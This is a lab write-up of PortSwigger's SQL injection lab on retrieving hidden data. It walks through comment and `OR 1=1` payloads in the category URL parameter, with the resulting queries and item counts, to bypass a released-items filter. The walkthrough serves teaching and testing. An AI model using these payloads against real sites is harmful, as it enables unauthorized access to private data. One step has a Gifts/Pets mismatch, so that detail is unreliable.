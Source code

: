 # SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

![Lab banner – PortSwigger Apprentice level](1.png)

---


## Executive Summary

During a controlled assessment of the demo web store provided by PortSwigger (“SQL Injection in `WHERE` clause – retrieve hidden data” lab), we confirmed that an attacker can manipulate the site’s product-filtering feature and force the database to return *all* records—including items the business meant to keep private.
Put simply, the application trusts text taken straight from the web address (URL) and passes it to the database without checking it. By subtly altering that text, we could **bypass the “show-only-released-items” safety check** and view every product in the catalogue.

---

## Description

![Lab banner – PortSwigger Apprentice level](2.png)

---

## Why This Matters to You

* **Data exposure:** Hidden or unreleased products, prices or SKUs can leak to competitors or the public.
* **Customer trust:** If attackers can pull hidden data, they may also pivot to extract sensitive customer information.
* **Regulatory impact:** Unauthorised data disclosure may breach privacy or consumer-protection laws.

---


## Step-by-Step Walk-Through

*(Jargon kept minimal—technical terms are boxed and explained in plain language.)*

| # | What we did                                                                                                             | What the application tried to do                                                                                                | What actually happened & why                                                                                                                                                                |
| - | ----------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1 | **Established a baseline** by visiting `/filter?category=Gifts` (no tricks).                                             | Database runs a normal search: `SELECT * FROM products WHERE category='Pets' AND released=1`                                    | Page shows **3 released pet products**—exactly as expected.                                                                                                                                 |
| 2 | **Neutralised the safety check**. We added a short “comment” symbol recognised by databases: `/filter?category=Gifts'--` | Intended query still tacks on `AND released=1`, but everything after the `--` is ignored (the database treats it as a comment). | Query becomes `SELECT * FROM products WHERE category='Gifts'-- ' AND released=1` ⇒ the **released-only rule is now skipped**. The page shows **4 products** (including one unreleased item). |
| 3 | **Removed the category filter altogether**. We supplied `/filter?category=Gifts' OR 1=1--`                               | The `OR 1=1` condition is always true, so the database thinks *every* row matches.                                              | Final query: `SELECT * FROM products WHERE category='Gifts' OR 1=1-- ' AND released=1` ⇒ the site lists **every single product**, regardless of category or release status.                  |

![Lab banner – PortSwigger Apprentice level](3.png)
> URL-encoded payload of (`Gifts' OR 1=1--`)
---

## Observable Output

| Test                              | Visible result            | What it proved                       |
| --------------------------------- | ------------------------- | ------------------------------------ |
| Baseline (`Gifts`)                 | 3 items                   | Normal operation.                    |
| Bypass released check (`Gifts'--`) | 4 items                   | Hidden/unreleased items now visible. |
| Show all (`Gifts' OR 1=1--`)       | 12 items (all categories) | Full catalogue disclosure confirmed. |


---


## Conclusion

The demonstration shows how a simple, one-line tweak to a URL can undo critical business logic and expose private inventory. 



